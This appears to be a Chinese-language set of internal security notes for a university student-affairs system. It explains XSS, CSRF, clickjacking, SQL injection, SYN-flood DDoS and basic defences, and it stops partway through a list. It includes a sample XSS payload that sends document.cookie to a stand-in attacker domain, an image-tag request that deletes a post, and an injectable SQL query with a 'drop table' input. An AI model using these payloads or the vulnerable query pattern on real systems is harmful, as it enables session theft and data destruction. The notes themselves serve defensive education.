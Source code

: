 #安全

##引言

互联网时代的数据安全与个人隐私受到前所未有的挑战，各种新奇的攻击技术层出不穷。安全问题分为两种，一种是正在运行的业务具有被破坏的风险，另一种是用户信息的泄露。我们握有用户的重要信息，务必要保证这些信息的安全。

安全是一个持续的过程。

## 同源策略与跨源资源共享

浏览器对于DOM、Cookie、XMLHttpRequest(Ajax)使用同源策略，但是script、img、iframe、link等标签均可以跨域获取资源。另外HTML 5可以实现XMLHttpRequest的跨域请求（CSP）。

##XSS攻击

实施方案

恶意js代码

<div><script>干了很多坏事</script></div>

1. 劫持并修改页面

通过劫持路由器等方案，修改页面并向其中加入恶意js代码。

2. 网站漏洞

例如写一篇包含恶意js代码的文字存入学工系统，之后所有浏览该段文字的用户，都会在浏览器中执行该段代码。

利用方式

1. 劫持cookie

恶意代码如下

var img = document.createElement("img");

img.src = "http://www.坏蛋.公司/log?" + escape(document.cookie);

document.body.appendChild(img);

这条请求会在远程服务器上留下一条带有cookie信息的记录。如果将Cookie设置为HttpOnly，可以防止被读取。

2. 在用户页面执行get或者post请求

例如我们只需要让学工管理员看待带有如下恶意代码的页面，即可删掉一篇帖子

var img = document.createElement("img");

img.src = "http://学工接口地址?m=delete&id=帖子的id"
document.body.appendChild(img);

类似的可以构造post请求。

3. XSS钓鱼

利用恶意js代码伪造一个登陆界面。

4. 识别用户浏览器、是否有ActiveX（可能会让用户机器中木马）等

5. 通过window.name对象在网页不同的tab间传递信息

## 跨站点请求访问

管理员在登录学工系统后，访问了另一个页面，其中包含一条连接。

<code><img src="http://学工接口地址?m=delete&id=帖子的id" /></code>

则帖子被删除。

## 点击劫持

通过劫持路由器等方案，将一个层覆盖到原有的网页上。

## 注入攻击

var city = Reuqest.form("city");
var sql = "select * from order where ciry='" + city + "'";

此时，如果用户输入的是

beijing; drop table xxx;

则数据表被删除。

## 访问控制

有些访问没有进行权限控制，用户猜到URL即可看到内容。

## DDos

伪造大量的源IP地址，分别向服务器发送大量的SYN包，此时服务器收不到回应并等待一个SYN time，如果伪造的包数量非常多，则服务器会消耗过多的资源在这些连接上，无法服务于正常的用户。

## 盗链

## 业务安全

产品中使用了不正确的逻辑，例如只允许单点登录且只允许在客户端修改密码，则盗号者可以不停的登录，不给被盗者修改密码的机会。

## TSL/SSL

可以保证数据的完整性、机密性。EV SSL证书更佳。


## 法律法规

// TODO 高校相关产品是否有哪些信息可以披露的法律法规。

## 数据消密

## 安全规章

白名单机制、最小权限机制

1. 只开发用于服务的端口，不得使用如将SSH端口由22改为2222的方式来规避；

2. 所有服务器软件从Ubuntu内置源下载，不得使用第三方包；

3. 所有的输入都需要过滤，使用白名单策略，不应该包含<script>标签，更应该注意SQL过滤；

4. 部分输出应该过滤，将字符转为HtmlEncode和JavaScriptEncode;

& --> &amp;
